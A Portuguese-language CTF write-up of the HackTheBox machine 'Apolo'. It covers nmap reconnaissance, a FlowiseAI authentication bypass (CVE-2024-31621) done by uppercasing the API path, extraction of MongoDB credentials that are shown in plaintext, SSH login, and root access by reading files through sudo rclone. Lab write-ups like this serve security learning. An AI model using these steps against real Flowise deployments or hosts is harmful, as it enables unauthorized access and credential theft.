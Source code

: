 # HackTheBox CTF — Binary Badlands: Apolo — Full Pwn Writeup

Por Lucas Albano

## Reconhecimento

Começamos a análise com o **nmap** para identificar os serviços disponíveis no alvo. Foi possível detectar um serviço SSH e um servidor web em execução.

```bash
nmap -A <IP_do_Alvo>
```

Podemos descobrir o domínio do alvo utilizando o **curl**.

```bash
curl -I <IP_do_Alvo>
```

Precisamos então adicionar o domínio ```àpolo.htb``` ao arquivo ```/etc/hosts``` e podemos então começar a explorar as páginas web. Analisando o código-fonte podemos notar referências a um subdomínio ```ai.apolo.htb``` que também adicionamos a ```/etc/hosts```.

Ao acessar ```ai.apolo.htb```, identificamos uma aplicação **FlowiseAI**, uma ferramenta low-code open-source para customizar fluxos de LLM e outras AI. Pesquisando por vulnerabilidades descobrimos o ```CVE-2024-31621``` de **Authentication Bypass**:

```text
The flowise version <= 1.6.5 is vulnerable to authentication bypass
vulnerability.
The code snippet

this.app.use((req, res, next) => {
>                 if (req.url.includes('/api/v1/')) {
>                     whitelistURLs.some((url) => req.url.includes(url)) ?
> next() : basicAuthMiddleware(req, res, next)
>                 } else next()
>             })


puts authentication middleware for all the endpoints with path /api/v1
except a few whitelisted endpoints. But the code does check for the case
sensitivity hence only checks for lowercase /api/v1 . Anyone modifying the
endpoints to uppercase like /API/V1 can bypass the authentication.
```

## Exploração

Podemos explorar a vulnerabilidade inserindo este código no console das DevTools do navegador ou utilizando o **BurpSuite** para modificar as requisições HTTP. Também, podemos simplesmente alterar ```/api/v1/``` para algo como ```/API/V1/```. De qualquer maneira, podemos navegar até ```/api/v1/credentials``` e obter:

```javascript
[
    {
        "id": "6cfda83a-b055-4fd8-a040-57e5f1dae2eb",
        "name": "MongoDB",
        "credentialName": "mongoDBUrlApi",
        "createdDate": "2024-11-14T09:02:56.000Z",
        "updatedDate": "2024-11-14T09:02:56.000Z"
    }
]
```

e acessando o ID especificado no endpoint ```ai.apolo.htb/Api/v1/credentials/6cfda83a-b055-4fd8-a040-57e5f1dae2eb``` obtemos as credenciais do banco de dados:

```javascript
{
  "id": "6cfda83a-b055-4fd8-a040-57e5f1dae2eb",
  "name": "MongoDB",
  "credentialName": "mongoDBUrlApi",
  "createdDate": "2024-11-14T09:02:56.000Z",
  "updatedDate": "2024-11-14T09:02:56.000Z",
  "plainDataObj": {
    "mongoDBConnectUrl": "mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority"
  }
}
```

Também podemos fazer isso navegando diretamente pela aplicação até a aba de credenciais utilizando o BurpSuite. De qualquer forma, obtemos as credenciais ```lewis:C0mpl3xi3Ty!_W1n3``` que podem ser utilizadas para acessar a máquina por SSH e obter a flag de usuário.

```bash
ssh lewis@<IP_do_Alvo>
cat user.txt
```

## Escalação de Privilégio

Aqui podemos utilizar diferentes técnicas para encontrar vetores de escalação de privilégio. Eu apelei para utilizar ferramentas automatizadas como ```linpeas``` e ```enum4linux```. Depois de perder algum tempo tentando explorar alguns possíveis exploits acusados pelas ferramentas (erro de principiante) notei que o usuário lewis podia executar o comando ```/usr/bin/rclone``` como superusuário.

```text
[+] We can sudo without supplying a password!
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

Podemos verificar isso com um simples:

```bash
sudo -l
```

Observando o ```--help``` do comando e fazendo pesquisas (leia-se chatGPT), descobrimos que o **rclone** é uma ferramenta de linha de comando para gerenciar e sincronizar arquivos entre sistemas de arquivos locais e serviços de armazenamento em nuvem. E mais importante, ele pode usar o comando ```cat```. Podemos então simplesmente utilizar o comando

```bash
sudo rclone cat /root/root.txt
```

e obter a flag de root.
